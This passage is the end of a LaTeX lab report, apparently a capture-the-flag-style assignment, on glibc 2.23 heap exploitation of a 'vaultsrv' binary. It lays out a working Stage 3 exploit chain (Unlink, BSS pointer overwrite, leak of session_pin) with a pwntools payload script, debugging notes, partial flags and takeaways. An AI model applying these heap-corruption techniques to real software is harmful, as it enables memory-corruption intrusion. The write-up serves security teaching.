
\begin{tikzpicture}[
  cell/.style={draw, minimum width=7.5cm, minimum height=0.55cm, font=\ttfamily\scriptsize},
  lbl/.style={font=\scriptsize, anchor=east},
  >=Stealth
]
\node[font=\bfseries\small] at (0, 6.5) {reseal(0) writes 0x108 bytes starting at 0x6031c8};

\node[cell, fill=gray!15]     (p0) at (0, 5.8) {\textbackslash x00 $\times$ 24 (padding)};
\node[lbl] at (p0.west) {+0x00~~};

\node[cell, fill=heap_alloc]  (v0d) at (0, 5.2) {vault[0].data = 0x6032d0 (safe writable)};
\node[lbl] at (v0d.west) {+0x18~~};
\node[cell, fill=heap_alloc]  (v0s) at (0, 4.6) {vault[0]: alloc=0, state=0 (disabled)};
\node[cell, fill=gray!15]     (v0n) at (0, 4.0) {vault[0].name: zeros};

\node[cell, fill=heap_target] (v1d) at (0, 3.4) {\textbf{vault[1].data = 0x6032e8 (\&session\_pin)}};
\node[lbl] at (v1d.west) {+0x38~~};
\node[cell, fill=heap_target] (v1s) at (0, 2.8) {vault[1]: alloc=8, \textbf{state=1} (enabled for audit)};
\node[cell, fill=gray!15]     (v1n) at (0, 2.2) {vault[1].name: zeros};

\node[cell, fill=heap_free]   (rest) at (0, 1.6) {vaults[2]-[7]: all zeros (state=0, disabled)};
\node[lbl] at (rest.west) {+0x58~~};

\draw[->, thick, red, dashed] (v1d.east) -- ++(2,0) node[right, font=\scriptsize\color{red}] {points to session\_pin};
\end{tikzpicture}
\caption{BSS layout after \texttt{reseal(0)} overwrites the \texttt{vaults[]} array.}
\end{figure}

\subsection{Exploit Chain}

\begin{enumerate}
  \item \textbf{Phase 1 — Unlink} (identical to Stage 2, steps 1--5):
  \begin{enumerate}[label=\alph*.]
    \item Allocate Vault 0 (\texttt{0x108}) with fake Unlink chunk.
    \item Allocate Vault 1 (\texttt{0x108}) with fake nextchunk header.
    \item Allocate Vault 2 (\texttt{0x18}) as barrier.
    \item \texttt{reseal(0)} — off-by-one poisons Vault 1's size.
    \item \texttt{purge(1)} — backward consolidation + Unlink.
    \item \textbf{Result:} \texttt{vaults[0].data = 0x6031c8}.
  \end{enumerate}

  \item \textbf{Phase 2 — BSS Corruption:}
  \begin{enumerate}[label=\alph*.]
    \item Call \texttt{reseal(0)} with a crafted 0x108-byte payload.
    \item The payload overwrites \texttt{vaults[]} in BSS:
    \begin{itemize}[nosep]
      \item \texttt{vaults[0]}: disabled (\texttt{state=0}), safe data pointer.
      \item \texttt{vaults[1].data = 0x6032e8} (\texttt{\&session\_pin}),
            \texttt{state=1}.
      \item \texttt{vaults[2--7]}: all disabled (\texttt{state=0}).
    \end{itemize}
    \item The off-by-one null byte writes to \texttt{0x6032d0} (harmless BSS
          location in vault 7's name area).
  \end{enumerate}

  \item \textbf{Phase 3 — Leak:}
  \begin{enumerate}[label=\alph*.]
    \item Call \texttt{vault\_audit()} (menu option 6).
    \item Audit iterates over all vaults. Only vault 1 has \texttt{state \& 1 = 1}.
    \item It dereferences \texttt{vaults[1].data = 0x6032e8} and prints:\\
          \texttt{vault[1]: 0x<session\_pin\_hex>}
    \item Parse the hex value from the output.
  \end{enumerate}

  \item \textbf{Phase 4 — Claim:}
  \begin{enumerate}[label=\alph*.]
    \item Submit: \texttt{claim(stage=3, value=session\_pin)}.
    \item The binary verifies it matches the stored random value and prints the flag.
  \end{enumerate}
\end{enumerate}

\begin{lstlisting}[style=python, caption={Stage 3 exploit (key logic after Unlink)}]
# Phase 2: Corrupt vaults[] array
bss_payload  = b'\x00' * 0x18              # padding

bss_payload += p64(0x6032d0)               # vault[0].data (safe)
bss_payload += p32(0) + p32(0)             # vault[0]: disabled
bss_payload += b'\x00' * 16               # vault[0].name

bss_payload += p64(0x6032e8)               # vault[1].data = &session_pin
bss_payload += p32(8) + p32(1)             # vault[1]: state=1
bss_payload += b'\x00' * 16               # vault[1].name

for i in range(5):                         # vaults 2-6: disabled
    bss_payload += p64(0) + p32(0) + p32(0) + b'\x00'*16

bss_payload += p64(0) + p32(0) + p32(0)   # vault 7 (partial)

reseal_vault(0, bss_payload)

# Phase 3: Leak session_pin via audit
audit_output = audit_vaults()
match = re.search(rb'vault\[1\]: (0x[0-9a-fA-F]+)', audit_output)
session_pin = int(match.group(1), 16)

# Phase 4: Claim
claim(stage=3, value=session_pin)
\end{lstlisting}

\subsection{Challenges and Debugging}

\begin{itemize}
  \item \textbf{Choosing the leak primitive:} Initially considered using
        \texttt{vault\_inspect} (which uses \texttt{puts()}), but
        \texttt{session\_pin} may contain null bytes that would truncate the
        output. Switched to \texttt{vault\_audit} which uses
        \texttt{printf("\%lx")} — this prints the full 8-byte value as
        hexadecimal, completely avoiding the null-byte problem.
  \item \textbf{Off-by-one after BSS overwrite:} After the second
        \texttt{reseal(0)}, the reseal function re-reads \texttt{vaults[0].data}
        and \texttt{vaults[0].alloc\_size} for the trailing null-byte write.
        Since our payload has already overwritten these fields during
        \texttt{read\_data}, we needed to ensure \texttt{vaults[0].data}
        (now \texttt{0x6032d0}) is a writable BSS address and
        \texttt{alloc\_size} is 0, so the null byte writes harmlessly to
        \texttt{0x6032d0}.
  \item \textbf{Audit output format:} The actual format string was
        \texttt{"vault[\%d]: 0x\%lx"} (lowercase with brackets), not
        \texttt{"Vault \%d: 0x\%lx"} as initially assumed. The regex was
        corrected after the first test run.
\end{itemize}

% ══════════════════════════════════════════════════════════════
\newpage
\section{Summary and Conclusions}
% ══════════════════════════════════════════════════════════════

\subsection{Exploit Progression}

\begin{center}
\begin{tabular}{clll}
\toprule
\textbf{Stage} & \textbf{Vulnerability} & \textbf{Technique} & \textbf{Flag} \\
\midrule
1 & Use-After-Free & Fastbin fd pointer leak & \texttt{...h3ap\_an4tomy...} \\
2 & Off-by-one null byte & Poison null byte + Unlink & \texttt{...pr3v\_s1ze\_l13s...} \\
3 & BSS ptr corruption & Unlink side-effect + audit leak & \texttt{...unl1nk\_und0ne...} \\
\bottomrule
\end{tabular}
\end{center}

\subsection{Vulnerability Chain}

The three stages demonstrate a progressive exploitation chain:

\begin{enumerate}
  \item \textbf{Stage 1} exploits a \textit{missing cleanup} bug (dangling
        pointer + stale state flag) to \textit{leak heap metadata}.
  \item \textbf{Stage 2} exploits an \textit{off-by-one overflow} to corrupt
        heap chunk metadata, triggering \textit{backward consolidation} with
        a crafted fake chunk. The Unlink macro's side-effect corrupts a BSS
        pointer, and the overlapping allocation allows \textit{arbitrary heap writes}.
  \item \textbf{Stage 3} chains Stage 2's BSS corruption with a second
        \texttt{reseal} call to achieve \textit{arbitrary BSS overwrite},
        pivoting a vault's data pointer to a secret value
        (\texttt{session\_pin}), then using \texttt{audit} as an \textit{arbitrary
        read} primitive to complete the leak.
\end{enumerate}

\subsection{Key Takeaways}

\begin{itemize}
  \item \textbf{Defense in depth matters:} A single missing \texttt{ptr = NULL}
        after \texttt{free()} enables the entire exploit chain.
  \item \textbf{Metadata integrity:} The off-by-one null byte is only one byte,
        but it disables a critical security invariant (\texttt{PREV\_INUSE})
        that guards against chunk consolidation abuse.
  \item \textbf{Known pointer locations:} The Unlink bypass relies entirely on
        having a \textit{known} BSS address (\texttt{vaults[0].data} at
        \texttt{0x6031e0}) that holds the address of the fake chunk $P$.
        ASLR on the heap is defeated because the BSS is at a fixed address
        (no PIE).
  \item \textbf{glibc 2.23 limitations:} Modern glibc versions (2.26+) add
        tcache, safe-linking, and stricter checks that would prevent several
        of these attacks.
\end{itemize}

% ══════════════════════════════════════════════════════════════
\newpage
\section{Resources Used}
% ══════════════════════════════════════════════════════════════

\subsection{Recommended Reading Materials}

The following references were consulted to understand glibc heap internals
and exploitation techniques used in this assignment:

\begin{enumerate}
  \item \textbf{Understanding glibc malloc} — Sploitfun\\
        \url{https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/}\\
        \textit{Foundational overview of malloc chunk structure, bins, and free
        list management in glibc.}

  \item \textbf{Heap Exploitation Part 1: Understanding the Glibc Heap
        Implementation} — Azeria Labs\\
        \url{https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/}\\
        \textit{Detailed walkthrough of heap chunks, metadata fields
        (prev\_size, size, PREV\_INUSE), and allocation/deallocation flows.}

  \item \textbf{Heap Exploitation Part 2: Glibc Heap Free Bins} — Azeria Labs\\
        \url{https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/}\\
        \textit{Comprehensive explanation of fastbins, unsorted bins, small bins,
        and large bins. Critical for understanding Stage 1's fastbin LIFO behavior.}

  \item \textbf{glibc 2.23 malloc source code} — Bootlin/Elixir\\
        \url{https://elixir.bootlin.com/glibc/glibc-2.23/source/malloc/malloc.c}\\
        \textit{Primary reference for the exact Unlink macro implementation,
        consolidation logic, and integrity checks present in the target
        glibc version.}

  \item \textbf{Glibc Internals} — NyxFault\\
        \url{https://nyxfault.github.io/posts/Glibc-Internals/}\\
        \textit{Additional reference for understanding internal glibc structures
        and their exploitation implications.}
\end{enumerate}

\subsection{Tools and Environment}

\begin{itemize}
  \item \textbf{pwntools} (v4.15) — Python exploitation framework used for
        writing exploit scripts (\texttt{process()}, \texttt{sendlineafter()},
        \texttt{p64()}, \texttt{u64()}).
  \item \textbf{objdump} — Used for disassembling the \texttt{vaultsrv} binary
        to produce \texttt{vault.asm}.
  \item \textbf{glibc 2.23} (\texttt{libc-2.23.so}, \texttt{ld-2.23.so}) —
        Provided dynamic linker and C library matching the target environment.
  \item \textbf{Docker} (Ubuntu 20.04 base) — Containerized environment
        specified in the provided \texttt{Dockerfile} for reproducible testing.
  \item \textbf{Python 3} — All exploit scripts written in Python 3; local
        testing used the \texttt{subprocess} module as a pwntools-free fallback.
  \item \textbf{GDB + GEF} — Available in the Docker environment for
        runtime heap inspection and debugging.
\end{itemize}

\end{document}
